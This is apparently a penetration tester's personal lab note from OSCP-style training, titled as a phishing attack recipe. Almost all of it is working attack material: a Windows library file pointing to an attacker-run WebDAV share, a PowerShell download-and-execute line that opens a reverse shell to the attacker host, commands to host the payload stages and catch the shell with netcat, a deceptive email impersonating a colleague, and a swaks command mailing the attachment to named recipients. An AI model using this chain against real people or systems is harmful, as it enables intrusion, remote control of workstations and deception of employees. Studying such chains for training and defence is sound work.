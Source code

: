 <% tp.file.rename("1_phishing")%>


## Creating the Payloads
- config.Library-ms
  This opens our 1st stage dropper like it was a local folder
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://HIP</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

- Payload that belongs into the Library, e.g. an .lnk file
```powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<HIP>:8000/Invoke-PowershellTcp.ps1'); Invoke-PowershellTcp -Reverse -IPAddress <HIP> -Port 4444"
```

- 1st Stage dropper (shell 1)
Hosting the webdav directory, containing our payload
```bash
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/oscp/lab/webdav/
```

- Create a copy of the library and use that to transfer those two files to kali

## Setup C2

- 2nd Stage dropper (shell 2)
```bash
cd /home/kali/Documents/shells/ && python3 -m http.server 8000
```
> Unstaged msf rev_tcp exe did not work in ATP
> 
- Receive reverse shell (shell 3)
`nc -nvlp 4444`

## Send Phish
- Example contents for body.txt
```
Hey!
I checked WEBSRV1 and discovered that the previously used staging script still exists in the Git logs. I'll remove it for security reasons.

On an unrelated note, please install the new security features on your workstation. For this, download the attached file, double-click on it, and execute the configuration shortcut within. Thanks!

John
```

- Shell 4
```bash
sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server $mailServerIP --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
```
